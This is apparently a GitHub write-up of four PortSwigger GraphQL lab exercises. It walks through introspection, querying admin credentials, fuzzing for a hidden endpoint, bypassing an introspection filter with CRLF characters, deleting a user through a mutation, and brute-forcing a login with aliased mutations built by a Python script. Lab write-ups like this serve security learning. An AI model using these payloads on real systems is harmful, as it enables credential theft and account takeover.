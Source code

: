 # GraphQL API

## Summary
- Lab 01: Accessing private GraphQL posts
- Lab 02: Accidental exposure of private GraphQL fields
- Lab 03: Finding a hidden GraphQL endpoint
- Lab 04: Bypassing GraphQL brute force protections
## Lab 01: Accessing private GraphQL posts
With starting the lab, if we try to access any blog post we will find a graphQL API endpoint `/graphql/v1` that sends a query to access the intended post we need.

![lab1.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/GraphQL%20API%20Labs/images/lab1.png)

After sending `introspection query` to the server, it received that and we detected all fields of the `Blog Post` query.
![lab1 query.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/GraphQL%20API%20Labs/images/lab1%20query.png)
 - One of these fields is a `postPassword`, by trying all the IDs of the `Blog Posts`, we will detect, that there is a hidden post that holds a secret password.
 ![secretflag.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/GraphQL%20API%20Labs/images/secretflag.png)
---
## Lab 02: Accidental exposure of private GraphQL fields
 - The same thing in the previous lab, we will detect `/graphql/v1` API endpoint that sends queries to get the posts of the blog.
- We will send again the `introspection query` to discover all the queries that API does.

> [!NOTE]
> If  we send any Query without the `getBlogSummaries` name, it will get an error query.
![error.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/GraphQL%20API%20Labs/images/error.png)

- For this reason, we will send the query with the `getBlogSummaries` name, because it is required.
![200ok.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/GraphQL%20API%20Labs/images/200ok.png)
- After that i detected, there is an query is called `getUser` have `id`,`username`, and `password` fields.
- So what about sending a query to retrieve the admin credentials?
```
query getBlogSummaries{
	getUser(id:1){
	username
	password
	}
}
```
![creds.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/GraphQL%20API%20Labs/images/creds.png)
- Congrats, we have got the credentials for the `administrator`.

---------

## Lab 03: Finding a hidden GraphQL endpoint

- We will do some recon to discover any API endpoints.
![hidden_api.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/GraphQL%20API%20Labs/images/hidden_api.png)

- We discovered one then when i have gone to access the `/api` path, there is an error message appeared that request to set the query :
![not present.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/GraphQL%20API%20Labs/images/not%20present.png)
 - It is an indicator that there is a `SQL or GraphQL query` that the endpoint sends here.
- But we need to know what is the parameter that is set here, so now we can do more recon and fuzzing the parameters.
```sh
$ ffuf -u https://0a4b002b0406d2b38acb5010001d00bc.web-security-academy.net/api?FUZZ=ayhaga -w /usr/share/wordlists/SecLists-master/Discovery/Web-Content/burp-parameter-names.txt
```

![fuzzingquery.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/GraphQL%20API%20Labs/images/fuzzingquery.png)

- After detcting the `query` parameter, try sending anything in it, you will gain an error that is an indicator for that is a `GraphQL` query:
```
https://0a9b009703e6302c8480052f008e0003.web-security-academy.net/api?query=ayhaga
```

![ayhaga.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/GraphQL%20API%20Labs/images/ayhaga.png)

- I tried to send the `introspection query`, but i have got an error which the `GraphQL introspection is not allowed`.
![errorschema.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/GraphQL%20API%20Labs/images/errorschema.png)

- We can try another technique by using the `CRLF Injection` with `%0D%0A` after this part `query IntrospectionQuery {` of the payload.
- The paylod will look like that:
```
query IntrospectionQuery { %0D%0A ......the_rest_of_the_IntrospectionQuery.....
```

![CRLF.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/GraphQL%20API%20Labs/images/CRLF.png)

- After that to make the process easier, i saved the schema of the server in the file, and i imported the file into the `InQL` tool.
- The tool extracted all queries that we can do to the server.
![InQL Tool.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/GraphQL%20API%20Labs/images/InQL%20Tool.png)

```
mutation{
deleteOrganizationUser(input: {id:3}}){
     user{
	     id
	     username
	}
  }
}
```

- Set this payload in the `GraphQL` editor and send the request to delete the user that you need by its `id`.
![delete.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/GraphQL%20API%20Labs/images/delete.png)

--------
## Lab 04: Bypassing GraphQL brute force protections
- In this lab, during the `login` process, if anyone tried to brute force for the user credentials, the server will block him for `1 Minute`.
![block.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/GraphQL%20API%20Labs/images/block.png)
- The server is using a `/graphql/v1` endpoint to make its queries.
- I sent the endpoint to the `InQL` to detect the rest of the query types.

![mutation.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/GraphQL%20API%20Labs/images/mutation.png)

- it doesn't exist any other queries unless the `mutation` query for the `login`, which is that takes the `LoginInput` like that:
![loginfailed.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/GraphQL%20API%20Labs/images/loginfailed.png)

- We have an idea, why not try sending more mutation queries in the same request instead of sending each single mutation query in one request?
- We will use the `aliases` technique to send more than one mutation in the  same query but with difference names.
```
mutaion {
	SadQuery1:login(input:{username:"carlos", password:"123456" }){
		token
		success
	}
	
	SadQuery2:login(input:{username:"carlos", password:"123456" }){
		token
		success
	}
}
```

- Now, We need to try a password wordlist to test which mutation will be a success login.
- We will do that with small python script:
```python
with open("passwords","r") as file:
    for i in range(1,101):
        for password in file:
            password = password.strip()
            
            query = f"SadQuery{i}:" + ' login(input:{username:"carlos",' + f'password:"{password}"' + """}){  
            token
            success
        }"""       
            i+=1
            print(query)
```

- Now we can send our attack:
![sadqueries.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/GraphQL%20API%20Labs/images/sadqueries.png)

![success.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/GraphQL%20API%20Labs/images/success.png)

- We have found a success response from one of the mutation queries.
![passwordsuccess.png](https://github.com/Sec0gh/Portswigger-Labs/blob/main/GraphQL%20API%20Labs/images/passwordsuccess.png)
